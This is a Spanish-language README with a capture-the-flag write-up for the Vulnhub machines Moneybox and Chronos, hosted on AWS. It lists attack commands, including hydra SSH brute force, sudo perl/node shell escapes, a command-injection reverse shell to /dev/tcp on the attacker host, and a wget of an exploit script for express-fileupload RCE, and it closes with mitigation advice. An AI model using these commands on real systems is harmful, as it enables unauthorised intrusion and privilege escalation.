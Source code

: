 # Introducción
En este proyecto se efectúa la solución a 02 máquinas CTF(Capture The Flag) del repositorio de Vulnhub: [Moneybox](https://www.vulnhub.com/entry/moneybox-1,653/) y [Chronos](https://www.vulnhub.com/entry/chronos-1,735/), montadas en un entorno cloud empleando el servicio EC2 de AWS.

# Infraestructura
Tanto Moneybox como Chronos se montaron en diferentes instancias EC2, adicionalmente la máquina atacante con [Kali](https://www.kali.org/get-kali/#kali-platforms). Las 03 instancias se encuentran desplegadas en la misma VPC y se realiza el networking correspondiente para que se encuentren conectadas entre sí. Sin embargo la única máquina accesible desde fuera a través de una public IP es la máquina atacante.

**`Infraestructura inicial`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=11c5o4umxrLiI0OOnam64kf3EjaVgHJ2X"></img></p>

**`Infraestructura securizada con herramientas nativas AWS`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1pADHae9b56royVwhx0JmwbbxH67-VIH5"></img></a>

# Moneybox (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`FTP abuse`**
```bash
$ ftp -U anonymous:anonymous <ip-target>
$ ftp > get
```
**`Steganography & HTTP abuse`**
```bash
$ xxd -l <specific-file>
$ curl <ip-target>:80
$ dirb <ip-target>:80
$ steghide extract -sf <specific-file>
```
**`SSH Brute Force`**
```bash
$ hydra -l <any-user> -P <dictionary.txt> -f <ip-target> ssh
```
**`Privilege escalation with PERL`**
```bash
$ sudo perl -e 'exec "/bin/sh";'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1KeScz_V1E5-qjqXH3OwnRvCzOa4t1ueu"></img></p>

**`Flags`**
```bash
> us3r1{F14g:0ku74tbd3777y4}
> us3r{F14g:tr5827r5wu6nklao}
> r00t{H4ckth3p14n3t}
```

# Chronos (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`HTTP abuse & domain resolution`**
```bash
$ curl http://<ip-target>
$ echo "<ip-target> chronos.local" >> /etc/hosts
$ curl http://chronos.local
```
**`Deobfuscation, decode, payload generation & command injection (Reverse shell)`**
```bash
$ curl http://chronos.local/date?format=('+Today is %A, %B %d, %Y %H:%M:%S.'; bash -c 'bash -i >& /dev/tcp/<ip-kali>/9002 0>&1')[base58 Encode]
$ nc -nlvp 9002
```
**`www-data abuse`**
```bash
$ cd ../chronos-v2/backend
$ cat package.json
```
**`RCE attack to express-fileupload (versions < 1.1.10)`**
```bash
> Kali side:
$ python3 -m http.server
$ nc -nlvp 8888

> target-side
$ wget http://<ip-kali>:8000/pollutor.py
$ python3 pollutor.py
```
**`Abuse "imera" user & Shell spawn with NODE`**
```bash
$ sudo -l
$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1iwHlQc8Gl9fvGv-oV7CMMLNU5yXst9Yy"></img></p>
**`Flag`**
```bash
> YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
# Medidas de mitigación de vulnerabilidades encontradas
**`Moneybox`**
+ Actualizar el servicio FTP a su ultima versión y si es posible migrar hacia otro puerto.
+ Eliminar el acceso FTP anónimo (anonymous:anonymous) asignar un usuario y una contraseña.
+ Utilizar certificados lugar de contraseñas de usuario para el acceso por SSH.
+ Emplear herramientas que eviten ataques de fuerza bruta tales como: **fail2ban** y **fwknop**.
+ Editar el fichero /etc/sudoers asignando los mínimos privilegios a grupos y usuarios.
+ Hardening del servidor web Apache.
+ Utilizar infraestructura adicional como IDS/IPS (mostrada en infraestructura securizada nativa de AWS).

**`Chronos`**
+ Evitar malas prácticas en el desarrollo backend: Evitar uso directo de comandos del sistema en el código o en su defecto, mitigar el uso de *keywords* tales como: bash, sh, whoami, etc.
+ Prevenir accesos mediante reverse-shell a través de NODE modificando el atributo de express-fileupload a **{parseNested: false}**.
+ Asignar lo mínimos privilegios mediante el fichero /etc/sudoers.
+ Emplear infraestructura securizada adicional (como la nativa proporcionada por AWS).
